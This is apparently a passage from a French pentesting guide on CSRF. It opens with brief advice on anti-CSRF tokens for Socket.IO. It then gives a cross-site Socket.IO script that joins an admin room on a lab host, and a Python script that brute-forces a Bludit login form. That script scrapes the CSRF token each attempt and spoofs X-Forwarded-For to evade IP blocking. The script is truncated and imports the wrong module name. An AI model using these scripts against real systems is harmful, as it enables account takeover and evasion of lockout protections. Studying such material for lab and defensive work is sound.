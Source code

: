 Pour se protéger contre les attaques CSRF avec Socket.IO, il est recommandé d'utiliser des jetons anti-CSRF. Ces jetons sont générés par le serveur et inclus dans les requêtes WebSocket. Le serveur vérifie ensuite si le jeton est valide avant de traiter la requête.

En utilisant des jetons anti-CSRF, les développeurs peuvent s'assurer que seules les requêtes légitimes provenant de leur propre site web sont autorisées à interagir avec le serveur Socket.IO. Cela réduit considérablement le risque d'attaques CSRF.

Il est important de noter que la mise en place de jetons anti-CSRF ne garantit pas une protection complète contre les attaques CSRF. Il est également recommandé de suivre les meilleures pratiques de sécurité web, telles que la validation des entrées utilisateur et la mise en œuvre de mécanismes de sécurité supplémentaires pour renforcer la sécurité de l'application.
```markup
<script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
<script>
let socket = io('http://six.jh2i.com:50022/test');

const username = 'admin'

socket.on('connect', () => {
console.log('connected!');
socket.emit('join', {
room: username
});
socket.emit('my_room_event', {
data: '!flag',
room: username
})

});
</script>
```
## Brute Force de connexion CSRF

Le code peut être utilisé pour effectuer une attaque de force brute sur un formulaire de connexion en utilisant un jeton CSRF (il utilise également l'en-tête X-Forwarded-For pour tenter de contourner un éventuel blocage d'adresse IP) :
```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
#Return CSRF + Session (cookie)
r = requests.get(URL)
csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
csrf = csrf.group(1)
session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
return csrf, session_cookie

def login(user, password):
print(f"{user}:{password}")
csrf, cookie = init_session()
cookies = {SESSION_COOKIE_NAME: cookie}
data = {
"tokenCSRF": csrf,
"username": user,
```